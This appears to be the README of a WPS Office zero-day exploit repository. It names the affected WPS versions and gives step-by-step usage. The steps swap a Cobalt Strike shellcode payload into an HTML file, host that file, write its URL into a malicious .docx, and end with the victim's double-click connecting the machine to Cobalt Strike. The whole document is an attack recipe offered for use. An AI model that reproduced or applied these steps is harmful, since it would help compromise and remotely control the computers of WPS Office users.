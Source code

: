 ﻿# WPS-0DAY-20230809
WPS Office 2023个人版＜11.1.0.15120; WPS Office 2019企业版＜11.8.2.12085 

## 使用方法

1. python replace_shellcode.py shellcode_32_raw.bin

   > 我这里使用的是CS中32位的payload, 使用replace_shellcode.py, 将1.html中的shellcode进行替换, 然后将1.html上传到你的托管地址, 例如: http://127.0.0.1/1.html

2. python exp.py poc.docx http://<URL>/1.html

   > 替换poc.docx中的URL, 也就是你的托管地址

3. 双击文档即可上线CS

   
